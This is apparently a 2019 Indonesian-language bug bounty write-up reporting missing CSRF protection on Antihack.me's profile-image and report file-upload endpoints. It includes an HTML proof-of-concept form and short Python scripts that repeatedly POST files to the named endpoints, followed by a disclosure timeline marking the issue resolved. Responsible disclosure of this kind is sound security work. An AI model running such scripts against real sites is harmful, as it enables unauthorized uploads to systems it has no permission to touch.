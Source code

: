 ```yaml
---
layout: post
title: "[Bug Bounty] Antihack.me CSRF File Upload Vulnerability"
date: 2019-01-09 07:00
categories: bugbounty
---
```

<div align="center">
    <img src="http://www.anope.org/cpanel/static/logo.png">
</div>


## CSFR On Profile Image File Upload
Antihack.me merupakan sebuah website Bug Bounty Platform asal singapura. Setelah mendaftarkan user baru dan login ke aplikasi, kita dapat mengatur profile kita sebagai bug hunter, termasuk juga setting avatar/photo profile. Tertarik dengan fitur upload imagenya, kita coba intercept request upload image tersebut.

<div align="center">
    <img src="http://www.anope.org/cpanel/static/logo.png">
</div>

Terlihat disana beberapa parameter yang dikirimkan, akan tetapi disana tidak ada csrf protection, artinya siapapun dapat mengakses fitur upload ini, sekalipun dia tidak memepunyai akses ke akun manapun.

Lalu kami coba test request dengan html:
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>CSRF File Upload</title>
</head>
<body>
	<form action="https://www.antihack.me/php/img_save_to_file_hacker.php" method="POST" name="csrf" enctype="multipart/form-data">
		<input type="file" name="img">
		<input name="HOST" value="AntiHACK">
		<input type="submit" value="Kirim">
	</form>
</body>
</html>
```

Lalu kami request dengan secript diatas dan didapatkan file berhasil diupload dengan baik. 
<div align="center">
    <img src="http://www.anope.org/cpanel/static/logo.png">
</div>

Lalu kami coba buat script csrf dengan python:
```
#!/usr/bin/python3

import requests

headers = {
	'Origin':'www.antihack.me'
}
files = {
        'img': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }
data = {
	"HOST":"AntiHACK"
}

for i in range(3):
	r = requests.post("https://www.antihack.me/php/img_save_to_file_hacker.php",files=files, headers=headers, data=data)
	print(r.text)
```
Ketika dieksekusi, file terupload dengan baik.

<div align="center">
    <img src="http://www.anope.org/cpanel/static/logo.png">
</div>

## CSRF On Report And Comment File Upload

Sepertihalnya platform bug bounty pada umumnya, disana terdapat fitur untuk melakukan reporting terkait celah keamanan yang ditemukan. Didalam fitur reporting tersebut terdapat beberapa fungsi editing, tak lupa fungsi upload file gambar/video juga disertakan guna kelengkapan report. 

Dengan script python:
```
#!/usr/bin/python3

import requests


files = {
        'files[]': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }

for i in range(5):
	r = requests.post("https://www.antihack.me/php/ajax_upload_file_company_new.php",files=files)
	print(r.text)


```

Didapatkan result sebagai berikut:

<div align="center">
    <img src="http://www.anope.org/cpanel/static/logo.png">
</div>

```
2018-12-28: Bug reported
2018-12-29: Triaged
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```